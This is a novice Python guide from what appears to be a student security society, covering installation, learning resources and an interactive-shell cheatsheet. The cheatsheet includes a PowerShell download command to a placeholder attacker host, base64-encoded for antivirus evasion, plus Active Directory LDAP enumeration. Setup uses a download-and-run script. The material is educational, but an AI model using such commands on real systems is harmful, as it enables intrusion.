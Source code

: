 # Fundamental Skills - Python Scripting

|Category|Experience Level|Author|
|---|---|---|
|Automation|Novice|Mac Goodwin & Seb Southwell|

## Contents
- [[#Fundamental Skills - Python Scripting]]
  - [[#Intro]]
  - [[#Installation]]
    - [[#Linux Setup]]
    - [[#Windows Setup]]
      - [[#Selenium Installation]]
    - [[#MacOS Installation]]
    - [[#Selenium Driver Download]]
  - [[#Learning Python]]
  - [[#Cheatsheet]]

## Intro

Python is a powerful and versatile language with a relatively easy to learn syntax.

We may use Python in some of our sessions for a few purposes:
- running pre-written exploits from exploitDB
- writing custom exploits
- simple automation tasks
- complex automation examples such as web scraping
- using nice builtins, such as text encoding options, when building shellcode

## Installation

You can download Python for pretty much any Operating System [here](https://www.python.org/downloads/).

Alternatively, you can use Seb's instructions for installing Python along with Selenium, a useful browser automation tool. They're detailed below.

### Linux Setup

For linux setup, you can type the following command below to instantly install python, pip and selenium (in the browser of your choice [Chrome or Linux]):

```bash
wget https://shefesh.com/session_scripts/SeleniumLinux.bash; bash SeleniumLinux.bash
```

### Windows Setup

Download python 3 and pip from the [Microsoft Store](https://www.microsoft.com/store/productId/9PJPW5LDXLZ5). If you already have it installed from the Python website you can skip this step.

#### Selenium Installation

In Command Prompt or Powershell, type:

```cmd
pip3 install selenium
```

### MacOS Installation

MacOS users can follow any of the following guides:

- [MacOS Python Guide](https://docs.python.org/3/using/mac.html)
- [Python Download Page](https://www.python.org/downloads/macos/)
- [Pip Installation Video for Python (If not installed)](https://www.youtube.com/watch?v=yBdZZGPpYxg)
- [MacOS Selenium Installation Video](https://www.youtube.com/watch?v=7R5n0sNSza8)

### Selenium Driver Download
Linux users won't have to follow this step for Chrome and Firefox unless you have another browser in mind for the session.
When downloading, CHECK YOUR BROWSER VERSION as it needs to compatible and run the version of the webbrowser you currently have on your computer.
- [Firefox Driver](https://github.com/mozilla/geckodriver/releases/tag/v0.30.0)
- [Chrome Driver](https://chromedriver.chromium.org/downloads)
- [Microsoft Edge Driver](https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/)
- [Internet Explorer Driver](https://www.selenium.dev/downloads)
- Safari Driver is built in to Safari
- [Opera Driver](https://github.com/operasoftware/operachromiumdriver/releases)

## Learning Python

While we would like to teach you everything about Python in one short lesson, that's not really possible. It takes a while to learn, but luckily there are a few resources out there that are much better than us at teaching it.

The best way to learn is, often, to build something from scratch (coming to our Automation session, for example, will teach you how to build a web scraper). But despite how easy Python is to pick up, it's useful to know some of the basics beforehand.

Here are a few courses. There's no requirement to do these, but you may find them useful if you're interested in learning it:
- Python themselves have a [Beginner's Guide](https://wiki.python.org/moin/BeginnersGuide) and a [Getting Started](https://www.python.org/about/gettingstarted/) tutorial
- This course was built by a former SESH committee member, Brooks Rady. Start with the 'Basics of Programming in Python' lesson: [https://sheffield-bionics.gitlab.io/bionics-general/](https://sheffield-bionics.gitlab.io/bionics-general/)
- codecademy has a course for the most recent Python version: [https://www.codecademy.com/learn/learn-python-3](https://www.codecademy.com/learn/learn-python-3)

You can also find the Python Documentation [here](https://docs.python.org/3/), which is a well-written reference guide if you have a specific question (but not a great way to learn the language).

## Cheatsheet

Here are some useful commands from Python that we end up using frequently.

Launch an interactive Python shell (in any CLI):

```bash
$ python
```

> Note: some linux distributions, including Kali, have Python 2 installed for backwards compatibility - to use Python 3, you must type python3 in the command line

Within the shell you can import a module or local file with `import`:

```bash
┌──(kali㉿kali)-[~]
└─$ python3                            
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> import localscript.py
```

Run a method from a native or imported class, such as `os.system()` or `os.setuid()`:

```bash
>>> import os
>>> os.system("id")
uid=1000(kali) gid=1000(kali) groups=1000(kali),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),120(wireshark),134(scanner),143(kaboxer)
0
>>> os.setuid(0)
>>> os.system("id")
uid=0(root) gid=0(root) groups=0(root),20(dialout),120(wireshark),143(kaboxer)
0
```

Send a HTTP request:

```bash
>>> import requests
>>> r = requests.get("http://example.com")
>>> print(r)
<Response [200]>
```

Or raw socket data, decoding the response in UTF-8 format:

```bash
>>> import socket
>>> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>> connect = s.connect(('IP',25))
>>> banner = s.recv(1024)
>>> print(banner.decode("utf-8"))
```

Create and sign a JWT token:

```bash
>>> import jwt
>>> from datetime import datetime, timedelta
>>> key = "verysecretkeylol"
>>> encoded = jwt.encode({"exp": datetime.utcnow() + timedelta(days=7), "key": "value"}, key, algorithm="HS256")
>>> print(encoded)
```

Calculate the difference between two hex values (useful in binary exploitation):

```bash
>>> 0x01611C8C - 0x016119FC
656
```

Quickly enumerate an Active Directory server with LDAP:

```bash
>>> import ldap3
>>> server = ldap3.Server('IP',get_info = ldap3.ALL, port = 389, use_ssl = False)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
```

Encode some text in base64 for a powershell encoded command (useful for basic antivirus bypass):

```bash
>>> import base64
>>> command = "Invoke-WebRequest http://YOUR_IP/exp.ps1 -o exp.ps1"
>>> print(base64.b64encode(command.encode("utf-16le")).decode())
SQBuAH...cwAxAA==
```

Test a regex:

```bash
>>> import re
>>> re.compile(r'\[\[(.*)\]\]')
re.compile('\\[\\[(.*)\\]\\]')
>>> p = re.compile(r'\[\[(.*)\]\]')
>>> string = "[[capture this]]"
>>> m = re.match(p, string)
>>> print(m.group(1))
capture this
```

As you can see, there's plenty it can do! The interactive Python shell is especially useful for testing small changes to scripts without having to modify the file itself.